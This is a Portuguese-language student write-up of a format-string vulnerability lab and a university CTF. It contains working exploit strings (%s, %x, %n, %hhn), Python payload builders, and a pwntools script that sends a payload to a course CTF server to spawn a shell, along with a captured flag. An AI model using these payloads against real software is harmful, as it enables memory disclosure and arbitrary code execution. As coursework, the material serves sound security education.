







Na tarefa desta semana é nos dado um script de python que facilita a geração de strings e um servidor que corre um programa com uma vunerabilidade de formato de string.
# Task 1
Para crashar o programa basta mandar para uma série de "%s", com o comando ```echo %s%s%s%s | nc 10.9.0.5 9090```. Neste caso os "%s" vão fazer com o que o servidor procure acima do endereço de format string na direção oposta à que a stack cresce, só parando quando acabar de encontrar 4 0x0 (que equivale ao carácter ASCII '\0') ou aceder a um lugar de memória invalido causando um segmentation fault que foi o que ocorreu neste caso.

 

Podemos verificar que o programa crashou, pois não imprimiu a string ```(^_^)(^_^)  Returned properly (^_^)(^_^)```.

# Task 2 
## Task 2A
A task 2A pede para imprimir os dados na stack e ainda descobrir onde na stack começa o nosso input. Para imprimir conteúdo na stack basta passar um format identifier como ```%x``` ou ```%p```, neste caso foi usado o ```%08x```. Para descobrir onde o nosso input começa na stack foi passado ao servidor em hexadecimal o valor 0xbbbbbbbb, uma string ```"AAAA"``` (que em hexadecimal corresponde 0x41414141) e 70 vezes a string ```"%08x|"```.



Mudando os números de ```"%08x|"``` que imprimimos, descobrimos o início do nosso input que começa na 64ª posição e pode ser acedido diretamente com o format identifier ```"%64$x"``` que imprime o 64ª endereço que encontra.

## Task 2B
A task 2B pede para imprimir a string secret message, sendo que já é providenciado pelo servidor o endereço 0x080b4008 que corresponde ao endereço da mesma. Para executar esta tarefa basta passar como input o endereço 0x080b4008 seguido do format indentifier ```"%64$s"``` que imprime a string que lê do endereço dado no início do input.



# Task 3
## Task 3A
A task 3A pede para alterar o valor da variável target, sendo que já é providenciado pelo servidor o endereço 0x080e5068 que corresponde ao endereço da variável. Como não é especificado o número que devemos atribuir ao target foi escolhido 42, que em hexadecimal corresponde a 0x0000002a. Para fazer esta tarefa é usado um método muito similar à Task 2B, só que, em vez do format identifier ```%s``` que lê em formato string o endereço fornecido é usado o ```%n``` que escreve para o endereço fornecido o número de bytes lido. Como input será fornecido o endereço 0x080e5068 e ```%38x%64$n``` que vai escrever 42 para o endereço 0x080e5068. O ```38``` presente no format string ```%38x``` faz com que se o resultado obtido ocupar menos de 38 bytes então adiciona espaços até o format string ocupar 38 bytes.



Como podemos ver a variável target foi alterada de 0x11223344 para 0x0000002a (que corresponde a 42 em decimal).
## Task 3B
A task 3B pede para escrever 0x5000 (que na sua forma decimal corresponde a 20480) na variavel target. Para fazer esta tarefa foi usado o mesmo metodo que na Task 3A só que foi alterado o preenchimento de 38 para 20476 (pois o endereço do target já ocupa 4 bytes).



build-string.py - Ficheiro usado para gerar o input da task 3B
```
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

# This line shows how to store a 4-byte integer at offset 0
number  = 0x080e5068
content[0:4]  =  (number).to_bytes(4,byteorder='little')

s = "%20476x%64$n"
fmt  = (s).encode('latin-1')
content[4:4+len(fmt)] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

## Task 3C
A task 3c envolve mudar a variavel target para 0xaabbccdd. Para executar esta tarefa é dado como input 4 endereços em que o 1 corresponde ao endereço do primeiro byte da variavel target e os outros 3 correspondem aos restantes bytes da variavel target, de seguida passamos a string ```"%153x %67$hhn %15x %66$hhn %15x %65$hhn %15x %64$hhn"``` que vai modificar os bytes da variavel target os valores dd cc bb aa respetivamente, mas, depois por causa da arquitetura little endian a variavel target vai ficar com o valor 0xaabbccdd.



build-string2.py - Ficheiro usado para gerar o input da task 3C
```
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

offset = 0
number  = 0x080e5068
content[offset:offset+4]  =  (number).to_bytes(4,byteorder='little')
offset += 4

number  = 0x080e5068+1
content[offset:offset+4]  =  (number).to_bytes(4,byteorder='little')
offset += 4

number  = 0x080e5068+2
content[offset:offset+4]  =  (number).to_bytes(4,byteorder='little')
offset += 4

number  = 0x080e5068+3
content[offset:offset+4]  =  (number).to_bytes(4,byteorder='little')
offset += 4

s = "%153x %67$hhn %15x %66$hhn %15x %65$hhn %15x %64$hhn"
fmt  = (s).encode('latin-1')
content[offset:offset+len(fmt)] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```
# CTF Semana 6 
## Desafio 1

Para este desafio foi usado o gdb para verificar que a string flag se encontrava no endereço 0x0804c060 e que o endereço do nosso input se encontra na ultima posição da stack. Com esta informação construimos a string "\08\xc0\x04\x08%1$s\n". Como output obtivemos a flag pretendida que foi flag\{dbaa462d98fa9419e4a01fd24eecfdde\}

ctf6.py - Ficheiro usado para construir a string
```
#!/usr/bin/python3
import sys

# Initialize the content array
N = 32
content = bytearray(0x0 for i in range(N))

offset = 0
# This line shows how to store a 4-byte integer at offset 0
number  = 0x0804c060
content[offset:offset+4]  =  (number).to_bytes(4,byteorder='little')
offset += 4

s = "|%1$x|%1$s\n"
fmt  = (s).encode('latin-1')
content[offset:offset+len(fmt)] = fmt
offset += len(fmt)

with open('ctf6.txt', 'wb') as f:
  f.write(content)
```
## Desafio 2
Para o desafio 2 alteramos o fluxo normal do programa ativando um if statemente que normalmente não seria ativo. O if statement em questão executava o comando `system("/bin/bash")` e era ativado caso o valor de uma variável `key` fosse igual a 48 879 (ou 0xbeef em hexadecimal). 

Começamos por arranjar o endereço da variável key no gdb que correspondia a `0x0804c034`, em seguida verificamos que o endereço do input se encontrava no fim da stack podendo ser acedido com o format string `1$`, para mudar a variável usamos o format string `%n` antecedido por 48 879 bytes, finalmente para criar os 48 879 bytes necessários usamos o format string `%1$48875x` (pois, o endereço da variável já ocupa 4 bytes).

Como resultado final obtivemos a string `\x34\xc0\x04\x08%1$48875x%1$n` que quando introduzido no servidor abriu uma bash que foi usada para ler o flag.txt.

 

ctf6D2.py 
```
from pwn import *

p = remote("ctf-fsi.fe.up.pt", 4005)

p.recvuntil(b"There is nothing to see here...")
payload = (0x0804c034).to_bytes(4,byteorder='little')
payload += b"%1$48875x%1$n"
p.sendline(payload)
p.interactive()
```

